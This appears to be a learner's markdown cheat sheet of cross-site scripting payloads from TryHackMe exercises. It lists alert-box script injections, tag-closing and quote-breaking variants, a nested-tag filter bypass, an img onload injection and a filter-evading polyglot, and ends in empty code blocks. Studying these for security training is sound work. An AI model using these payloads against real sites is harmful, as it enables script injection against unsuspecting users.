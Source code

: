 # XSS Payload Bank
## THM Payloads
```javascript
<script>alert('THM');</script> 
```

`// Checking for XSS Vulnerability`



```javascript
"><script>alert('THM');</script>
```
` // Closing a tag before injecting payload`
```javascript
</textarea><script>alert('THM');</script> 
```
`// Closing a tag before injecting payload`

---
```javascript
';alert('THM');//

```

**NOTE**

The `'` closes the field specifying the name, then `;` signifies the end of the current command, and the `//` at the end makes anything after it a comment rather than executable code.

---

```javascript
<sscriptcript>alert('THM');</sscriptcript>
```
`Bypassing the filter`
```javascript
/images/cat.jpg" onload="alert('THM');
```
`Taking advantage of the onload="" attribute of the <img> tag`

### Polyglots

An XSS polyglot is a string of text which can escape attributes, tags and bypass filters all in one. 
```javascript
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```
### A Repository of Polygots
[Ultimate XSS Polygot](https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot)

```javascript

```

```javascript

```

```javascript

```

```javascript

```

```javascript

```

```javascript

```
